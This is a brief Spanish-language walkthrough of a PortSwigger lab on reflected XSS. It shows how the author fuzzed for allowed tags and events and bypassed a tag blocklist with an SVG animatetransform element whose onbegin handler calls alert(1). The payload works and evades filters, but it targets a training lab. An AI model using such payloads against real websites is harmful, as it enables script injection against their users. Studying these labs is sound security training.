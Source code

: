 # 5 - SVG markup allowed

> This lab has a simple [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability. The site is blocking common tags but misses some SVG tags and events.
>
>  To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert()` function.



![](../../../.gitbook/assets/imagen%20%28678%29.png)

Luego vemos tags validas 

![](../../../.gitbook/assets/imagen%20%28676%29.png)

Luego editamos nuestro ataque:

```text
GET /?search=<svg><animatetransform%20§§=1> HTTP/1.1
```

Como permite svg permite rendirazar lo que esta dentro, en ese renderizado ejecuta etiquetas \(como animate que esta permitida\). Ahora con eso veremos que podemos incluir dentro, nos fijamos que eventos soportaa.

![](../../../.gitbook/assets/imagen%20%28675%29.png)



```text
<svg><animatetransform onbegin=alert(1)>
```

Buscamos eso y listo.

